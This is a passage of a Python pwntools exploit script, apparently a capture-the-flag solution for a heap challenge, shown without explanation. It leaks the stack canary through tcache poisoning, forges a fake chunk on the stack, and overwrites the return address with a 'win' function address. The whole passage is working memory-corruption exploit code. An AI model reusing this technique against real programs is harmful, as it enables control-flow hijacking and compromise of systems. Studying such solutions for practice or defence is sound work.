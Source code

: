 ```python
    fake_chunk = stack + 0x10
    canary = stack + 0x108
    win = pie_base + 0x1A00

    target.success(f"stack: {hex(stack)}")
    target.success(f"pie_base: {hex(pie_base)}")
    target.success(f"fake_chunk: {hex(fake_chunk)}")
    target.success(f"canary: {hex(canary)}")
    target.success(f"win: {hex(win)}")

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)

    # raw_input("DEBUG")
    scanf(0, p64(canary + 1))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)
    target.recvuntil(b"Data: ")
    canary = int.from_bytes(target.recvline().strip().rjust(0x8, b"\x00"), "little")
    target.success(f"canary: {hex(canary)}")

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    # raw_input("DEBUG")
    scanf(0, p64(stack))
    malloc(0, 0)
    malloc(0, 0)

    # fake chunk
    payload = flat(
        0,
        0x200,  # chunk size
    )
    scanf(0, payload)

    malloc(2, 0)
    malloc(3, 0)
    free(3)
    free(2)
    # raw_input("DEBUG")
    scanf(2, p64(fake_chunk))
    malloc(2, 0)
    malloc(2, 0)

    payload = flat(
        b"A" * 0xF8,
        canary,
        0,  # rbp
        win,
    )
    # raw_input("DEBUG")
    scanf(2, payload)
    quit()

    target.interactive()


if __name__ == "__main__":
```